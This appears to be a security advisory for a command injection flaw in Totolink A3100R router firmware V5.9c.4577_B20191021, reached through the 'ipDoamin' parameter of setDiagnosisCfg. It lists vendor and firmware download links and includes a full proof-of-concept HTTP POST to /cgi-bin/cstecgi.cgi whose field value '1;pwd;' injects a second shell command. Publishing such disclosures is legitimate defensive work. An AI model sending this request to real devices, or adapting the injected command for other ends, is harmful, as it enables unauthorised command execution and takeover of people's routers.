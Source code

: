 ## Totolink A3100R command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink A3100R
* Version: V5.9c.4577_B20191021

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20191119/d55579f988e05db5e32f2b458dd7ef17.zip

### Vulnerability details

Totolink A3100R V5.9c.4577_B20191021 was found to contain a command injection vulnerability in the `setDiagnosisCfg` function via the `ipDoamin` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 132
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/setDiagnosisCfg",
    "ipDoamin": "1;pwd;"
}
```

